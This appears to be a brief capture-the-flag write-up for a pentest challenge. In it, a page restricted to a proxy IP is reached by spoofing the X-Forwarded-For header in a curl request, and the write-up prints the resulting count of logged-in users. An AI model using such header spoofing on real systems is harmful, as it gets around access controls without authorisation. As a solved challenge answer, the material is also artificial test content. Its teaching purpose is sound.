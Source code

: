 # Restricted access
Only internal users who use our proxy with outgoing IP 10.10.10.10 have access to the page /intranet. Send us the 
number of logged in users and the key settings you used to bypass the proxy check.

Hint: How does the webserver recognize that the request came from a proxy?


## The solution

We need to forward HTTP proxy of client to 10.10.10.10 and get response from server.
```
curl --header "X-Forwarded-For: 10.10.10.10" https://pentest.join.eset.com/intranet
```

Result from response header:

```
Number of logged in users: 1068
```


